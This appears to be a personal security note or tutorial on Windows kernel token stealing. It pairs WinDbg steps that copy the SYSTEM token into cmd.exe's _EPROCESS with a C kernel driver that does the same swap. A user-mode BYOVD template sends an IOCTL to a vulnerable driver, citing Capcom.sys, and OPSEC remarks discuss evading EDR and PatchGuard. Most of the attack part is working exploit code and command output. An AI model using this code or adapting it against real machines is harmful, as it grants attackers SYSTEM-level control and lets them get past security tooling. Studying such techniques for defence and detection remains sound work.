

> [!abstract] Kernel-Level Token Stealing (Ring 0 Privilege Escalation)
> In Windows, every process is represented by an `_EPROCESS` structure in kernel memory. This structure holds the process's security context, specifically the `Token`, which dictates its privileges and identity. 
> 
> **The Hack:** If we overwrite the token of a low-privileged process (like `cmd.exe`) with the token of the highest-privileged process (`System`), the low-privileged process instantly gains `NT AUTHORITY\SYSTEM` rights. We essentially hijack the identity of the Operating System itself.
> **MITRE ATT&CK Mapping:** [T1134 - Access Token Manipulation](https://attack.mitre.org/techniques/T1134/) | [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)

![[Pasted image 20260918130259.png]]
## 📊 Visualizing the Hijack

> [!info] The Anatomy of a Process Token
> When a process is created, the kernel allocates an `_EPROCESS` block. Inside this block is a pointer to the Primary Token. By directly manipulating kernel memory (Ring 0), we can swap this pointer to point to the System token.


## 🕵️‍♂️ Manual Execution (WinDbg Breakdown)

![[Pasted image 20260918130448.png]]

> [!example] Step-by-Step Kernel Surgery
> This requires an active Kernel Debugging session (e.g., via `kd.exe` or WinDbg attached to a VM).

#### 1. Reconnaissance (Finding the Targets)
First, we need the kernel memory addresses (`_EPROCESS` base) of both our target and our victim.

```text
lkd> !process 0 0 system
PROCESS ffffdf8d334c9040  ...  Image: System

lkd> !process 0 0 cmd.exe 
PROCESS ffffdf8d5ca88080  ...  Image: cmd.exe
```

| Process | Role | `_EPROCESS` Address |
| :--- | :--- | :--- |
| **System** | 👑 The King (Target Token) | `ffffdf8d334c9040` |
| **cmd.exe** | 💀 The Peasant (To be hijacked) | `ffffdf8d5ca88080` |

#### 2. Locating the Token Offset
Next, we inspect the `_EPROCESS` structure to find exactly where the `Token` field is located. (Note: This offset varies between Windows builds).

```text
lkd> dt nt!_EPROCESS token
   +0x248 Token : _EX_FAST_REF
```
The `Token` is located at offset `0x248` from the start of the `_EPROCESS` structure. It uses a special structure called `_EX_FAST_REF`.

#### 3. Extracting the SYSTEM Token
We calculate the exact memory address of the System token by adding the offset (`0x248`) to the System `_EPROCESS` address, and we read its value.

```text
lkd> dt nt!_EX_FAST_REF ffffdf8d334c9040+0x248
   +0x000 Value            : 0xffffcd08`f427979a
```
The value of the SYSTEM token is `0xffffcd08f427979a`. 

> [!tip] The Magic of `_EX_FAST_REF` (Why the `a` at the end?)
> You might wonder why the token address ends with an `a` instead of being perfectly aligned (e.g., ending in `0`). Windows uses a clever optimization trick: memory addresses are always aligned to 8 bytes (or 16 bytes on 64-bit), meaning the lowest 3 to 4 bits are *always* zero. Instead of wasting these bits, Windows packs the `Reference Count` (RefCnt) into them. 
> 
> So, `0xffffcd08f4279790` is the actual token address, and `a` (binary `1010`) is the reference count embedded inside it. When stealing the token, we must copy this whole value exactly as it is.

#### 4. The Hijack (Overwriting cmd.exe's Token)
Now for the surgery. We use the `eq` (Enter Qword) command to write the SYSTEM token's value into `cmd.exe`'s token memory slot.

```text
lkd> eq ffffdf8d5ca88080+0x248 0xffffcd08`f427979a
```
- **Destination:** `cmd.exe` `_EPROCESS` + `0x248`
- **Value:** The SYSTEM token we just stole.

#### 5. Verification
We read `cmd.exe`'s token one more time to ensure the overwrite was successful.

```text
lkd> dt nt!_EX_FAST_REF ffffdf8d5ca88080+0x248
   +0x000 Value            : 0xffffcd08`f427979a
```
`cmd.exe` is now holding the exact same token as the `System` process.
## 💻 The Programmatic Approach (C Kernel Driver)

> [!bug] Conceptual C Exploit Code
> In a real exploit scenario, you won't have a WinDbg prompt. You will write a Kernel Driver (`.sys`) that interacts with Windows APIs to achieve the exact same result. 
> 
> *Note: Token offsets change between Windows versions. A robust exploit dynamically finds the offset using `NtQuerySystemInformation`.*

```c
#include <ntddk.h>

// Offset for Windows 10/11 (MUST BE VERIFIED FOR TARGET BUILD)
#define TOKEN_OFFSET 0x248 

// System PID is always 4
#define SYSTEM_PID 4

NTSTATUS StealSystemToken(PEPROCESS TargetProcess) {
    PEPROCESS SystemProcess = NULL;
    NTSTATUS status;
    ULONG_PTR SystemToken, TargetTokenAddress;

    // 1. Find the System Process (PID 4)
    status = PsLookupProcessByProcessId((HANDLE)SYSTEM_PID, &SystemProcess);
    if (!NT_SUCCESS(status)) {
        DbgPrint("[-] Failed to find System process.\n");
        return status;
    }

    // 2. Extract the System Token
    // We cast to ULONG_PTR to do raw pointer arithmetic
    SystemToken = *(ULONG_PTR*)((ULONG_PTR)SystemProcess + TOKEN_OFFSET);

    // 3. Calculate the address of our target process's token
    TargetTokenAddress = (ULONG_PTR)((ULONG_PTR)TargetProcess + TOKEN_OFFSET);

    // 4. OVERWRITE! (The 'eq' command equivalent)
    *(ULONG_PTR*)TargetTokenAddress = SystemToken;

    DbgPrint("[+] Token stolen successfully! System Token: 0x%p\n", (PVOID)SystemToken);

    // Cleanup reference
    ObDereferenceObject(SystemProcess);
    
    return STATUS_SUCCESS;
}

// Driver Entry Point
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath) {
    PEPROCESS TargetProcess = NULL;
    
    // Example: Find our current process (cmd.exe payload)
    PsLookupProcessByProcessId(PsGetCurrentProcessId(), &TargetProcess);
    
    if (TargetProcess) {
        StealSystemToken(TargetProcess);
        ObDereferenceObject(TargetProcess);
    }
    
    return STATUS_SUCCESS;
}
```

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

// IOCTL code required to trigger the vulnerability in the target driver
// For example, Capcom.sys uses 0xAA012044
#define VULN_DRIVER_IOCTL 0xAA012044 

// Function to enable SeDebugPrivilege so we can load drivers/interact
BOOL EnablePrivilege(LPCSTR priv) {
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) {
        LookupPrivilegeValueA(NULL, priv, &tp.Privileges[0].Luid);
        tp.PrivilegeCount = 1;
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
        CloseHandle(hToken);
        return TRUE;
    }
    return FALSE;
}

// Dummy payload that will be executed in Ring 0 (Kernel Mode)
// In a real exploit, this is the shellcode or function pointer that steals the SYSTEM token
VOID Ring0Payload() {
    // This function is actually executed by the Kernel!
    // It would contain the logic to find _EPROCESS and swap tokens.
    // We just use a breakpoint or a safe return for the template.
}

int main() {
    printf("[*] Starting User-Mode Exploit (BYOVD Technique)...\n");

    // 1. Enable SeDebugPrivilege (Required for loading drivers and interacting)
    if (!EnablePrivilege(SE_DEBUG_NAME)) {
        printf("[-] Failed to enable SeDebugPrivilege. Run as Administrator!\n");
        return 1;
    }
    printf("[+] SeDebugPrivilege Enabled.\n");

    // 2. Load the Vulnerable Driver (e.g., via Service Control Manager)
    // SC_HANDLE hService = CreateServiceA(..., "C:\\Windows\\Temp\\vuln_driver.sys", ...);
    // StartServiceA(hService, 0, NULL);
    printf("[*] Vulnerable Driver Loaded (Simulated).\n");

    // 3. Open a handle to the vulnerable driver device
    HANDLE hDevice = CreateFileA("\\\\.\\VulnDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver. Error: %lu\n", GetLastError());
        return 1;
    }
    printf("[+] Handle to Vulnerable Driver obtained.\n");

    // 4. Send the IOCTL to trigger the vulnerability
    // We pass the address of our Ring0Payload to be executed in Kernel Mode
    DWORD bytesReturned = 0;
    PVOID payloadAddress = (PVOID)Ring0Payload;

    printf("[*] Sending IOCTL to trigger Ring 0 execution...\n");
    BOOL success = DeviceIoControl(
        hDevice,
        VULN_DRIVER_IOCTL,
        &payloadAddress,       // Input: The address of our kernel payload
        sizeof(payloadAddress),
        NULL, 0,               // No output needed
        &bytesReturned,
        NULL
    );

    if (success) {
        printf("[+] IOCTL sent successfully! Token stealing payload executed in Kernel.\n");
        printf("[+] Current process is now SYSTEM!\n");
        
        // 5. Verify Privilege Escalation
        system("whoami");
    } else {
        printf("[-] DeviceIoControl failed. Error: %lu\n", GetLastError());
    }

    CloseHandle(hDevice);
    return 0;
}
```

> [!warning] OPSEC & Modern Mitigations
> Directly modifying kernel memory like this is extremely loud. Modern EDRs and Windows Defender utilize features like **PatchGuard (Kernel Patch Protection)** to monitor critical structures like `_EPROCESS`. If PatchGuard catches a modification to the token table, it will trigger a Blue Screen of Death (BSOD). Advanced red teams use techniques like *BYOVD (Bring Your Own Vulnerable Driver)* to bypass these signatures.

> [!success] Result: Game Over
> If you type `whoami` in this hijacked `cmd.exe` instance, it will now return `NT AUTHORITY\SYSTEM`. You have successfully escalated from a standard user to the highest privilege level in Windows by directly manipulating kernel memory.

> [!danger] Security Implication
> This is exactly why gaining Ring 0 (Kernel-level) access is considered the ultimate compromise. When an attacker reaches the kernel, they bypass all OS security boundaries, AVs, and EDRs, because they are literally talking directly to the brain of the operating system.

